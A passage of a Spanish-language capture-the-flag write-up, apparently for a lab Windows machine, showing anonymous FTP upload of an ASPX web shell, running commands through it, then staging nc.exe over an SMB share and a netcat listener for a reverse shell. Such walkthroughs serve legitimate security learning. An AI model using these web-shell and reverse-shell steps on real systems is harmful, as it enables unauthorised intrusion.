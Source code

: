 Subimos el archivo `cmdasp.aspx` por `FTP`, he probado a subirlo en los demás directorios pero solo me deja en este, además he usado al final el archivo `.aspx` debido a que el .asp no me lo interpreta

```
# ftp 10.129.155.162
Connected to 10.129.155.162.
220 Microsoft FTP Service
Name (10.129.155.162:justice-reaper): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put cmdasp.aspx
local: cmdasp.aspx remote: cmdasp.aspx
229 Entering Extended Passive Mode (|||49200|)
125 Data connection already open; Transfer starting.
100% |******************************************************************************************************************************************|  1442       17.62 MiB/s    --:-- ETA
226 Transfer complete.
1442 bytes sent in 00:00 (6.36 KiB/s)
```
## Web Exploitation

Al acceder al `http://10.129.155.162/cmdasp.aspx` probamos a ejecutar `comandos` y funciona

![](/assets/img/Devel/image_1.png)
## Intrusión

Nos copiamos `nc.exe` a nuestro `directorio actual` de trabajo

```
# locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe

# cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```

Nos montamos un `servidor smb` en nuestro `directorio actual`

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Nos ponemos en `escucha` por el `puerto 9993` con `netcat`

```
# nc -nlvp 9993
```
